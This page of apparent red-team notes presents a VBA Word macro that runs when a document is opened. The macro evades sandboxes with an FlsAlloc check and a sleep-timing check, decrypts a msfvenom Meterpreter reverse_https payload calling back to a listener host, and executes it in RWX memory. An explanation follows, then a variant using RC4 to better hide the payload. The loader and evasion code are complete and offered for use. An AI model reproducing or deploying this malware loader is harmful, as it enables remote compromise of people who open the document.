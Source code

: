 
## Macros

#### XOR encrypted shellcode runner 
- From https://arttoolkit.github.io/wadcoms/ShellcodeRunner-VBA/
```vb
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function Sleep Lib "kernel32" (ByVal mili As Long) As Long
Private Declare PtrSafe Function FlsAlloc Lib "kernel32" (ByVal lpCallback As LongPtr) As Long

Sub Document_Open()
  ShellcodeRunner
End Sub

Sub AutoOpen()
  ShellcodeRunner
End Sub

Function ShellcodeRunner()
  Dim buf As Variant
  Dim tmp As LongPtr
  Dim addr As LongPtr
  Dim counter As Long
  Dim data As Long
  Dim res As Long
  Dim dream As Integer
  Dim before As Date

  ' Check if we're in a sandbox by calling a rare-emulated API
  If IsNull(FlsAlloc(tmp)) Then
    Exit Function
  End If

  ' Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
  dream = Int((1500 * Rnd) + 2000)
  before = Now()
  Sleep (dream)
  If DateDiff("s", t, Now()) < dream Then
    Exit Function
  End If

  ' msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.240.178 LPORT=443 EXITFUNC=thread -f vbapplication --encrypt xor --encrypt-key a
  buf = Array(31, 33, ..., 33, 37)

  ' XOR-decrypt the shellcode
  For i = 0 To UBound(buf)
    buf(i) = buf(i) Xor Asc("a")
  Next i

  ' &H3000 = 0x3000 = MEM_COMMIT | MEM_RESERVE
  ' &H40 = 0x40 = PAGE_EXECUTE_READWRITE
  addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

  For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
  Next counter

  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function
```

This VBA code is designed to execute a shellcode payload in memory as part of a red team or penetration testing scenario. Here's an explanation of how it works, followed by instructions for how you could modify it to use RC4 encryption instead of XOR encryption.

### **Explanation of the Code:**

1. **API Declarations:**
   - `VirtualAlloc`: Allocates memory for the shellcode.
   - `RtlMoveMemory`: Copies the shellcode into the allocated memory.
   - `CreateThread`: Executes the shellcode by creating a new thread.
   - `Sleep`: Suspends the execution of the code for a random amount of time to avoid detection.
   - `FlsAlloc`: An uncommon API call that checks whether the environment is a sandbox, as this API is typically not emulated in sandbox environments.

2. **Functions:**
   - `Document_Open`: This function runs automatically when the document is opened in Word, triggering the shellcode execution via the `ShellcodeRunner` function.
   - `AutoOpen`: Another automatic execution point when the document opens, also triggering `ShellcodeRunner`.

3. **Anti-Sandbox Techniques:**
   - **API Call Check**: The `FlsAlloc` function is called, and if it returns `Null`, the code exits early. This is an anti-sandbox trick because many sandboxes don't properly emulate this API.
   - **Sleep Check**: The code sleeps for a random amount of time (between 2000 and 3500 milliseconds). After sleeping, it checks whether the system fast-forwarded through the sleep (another sign of a sandbox).

4. **Shellcode Decryption:**
   - The `buf` array contains the XOR-encrypted shellcode generated using `msfvenom`.
   - The `For` loop decrypts each byte in the `buf` array using a simple XOR with the ASCII value of the character `"a"`. This is an extremely basic encryption mechanism for obfuscation.

5. **Memory Allocation and Execution:**
   - Memory is allocated for the decrypted shellcode using `VirtualAlloc` with permissions set to execute, read, and write (`PAGE_EXECUTE_READWRITE`).
   - The shellcode is copied to the allocated memory using `RtlMoveMemory`.
   - The shellcode is then executed in a new thread via `CreateThread`.

---

### **Modified Code with RC4 Encryption:**

```vb

Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function Sleep Lib "kernel32" (ByVal mili As Long) As Long
Private Declare PtrSafe Function FlsAlloc Lib "kernel32" (ByVal lpCallback As LongPtr) As Long

Sub Document_Open()
  ShellcodeRunner
End Sub

Sub AutoOpen()
  ShellcodeRunner
End Sub

Function ShellcodeRunner()
  Dim buf As Variant
  Dim tmp As LongPtr
  Dim addr As LongPtr
  Dim counter As Long
  Dim data As Long
  Dim res As Long
  Dim dream As Integer
  Dim before As Date
  Dim key As String
  Dim decryptedBuf() As Byte

  ' Check if we're in a sandbox by calling a rare-emulated API
  If IsNull(FlsAlloc(tmp)) Then
    Exit Function
  End If

  ' Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
  dream = Int((1500 * Rnd) + 2000)
  before = Now()
  Sleep (dream)
  If DateDiff("s", before, Now()) < dream Then
    Exit Function
  End If

  ' msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.240.178 LPORT=443 EXITFUNC=thread -f vbapplication --encrypt rc4 --encrypt-key "mykey"
  buf = Array(31, 33, ..., 33, 37)

  ' RC4 decryption key (same key used to encrypt the shellcode)
  key = "mykey"

  ' Decrypt the RC4-encrypted shellcode
  decryptedBuf = RC4Decrypt(buf, key)

  ' &H3000 = 0x3000 = MEM_COMMIT | MEM_RESERVE
  ' &H40 = 0x40 = PAGE_EXECUTE_READWRITE
  addr = VirtualAlloc(0, UBound(decryptedBuf), &H3000, &H40)

  For counter = LBound(decryptedBuf) To UBound(decryptedBuf)
    data = decryptedBuf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
  Next counter

  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

' RC4 decryption function
Function RC4Decrypt(buf As Variant, key As String) As Byte()
    Dim s(255) As Integer
    Dim k(255) As Integer
    Dim i As Integer, j As Integer, t As Integer
    Dim keyLength As Integer
    Dim temp As Integer
    Dim output() As Byte
    Dim bufLength As Integer
    Dim decryptedBuf() As Byte

    ' Initialize the key-scheduling algorithm (KSA)
    keyLength = Len(key)
    For i = 0 To 255
        s(i) = i
        k(i) = Asc(Mid(key, (i Mod keyLength) + 1, 1))
    Next i

    j = 0
    For i = 0 To 255
        j = (j + s(i) + k(i)) Mod 256
        temp = s(i)
        s(i) = s(j)
        s(j) = temp
    Next i

    ' Initialize the output array
    bufLength = UBound(buf) - LBound(buf) + 1
    ReDim decryptedBuf(bufLength)

    ' Decryption using the pseudo-random generation algorithm (PRGA)
    i = 0
    j = 0
    For counter = LBound(buf) To UBound(buf)
        i = (i + 1) Mod 256
        j = (j + s(i)) Mod 256
        temp = s(i)
        s(i) = s(j)
        s(j) = temp
        t = (s(i) + s(j)) Mod 256
        decryptedBuf(counter) = buf(counter) Xor s(t)
    Next counter

    RC4Decrypt = decryptedBuf
End Function
```
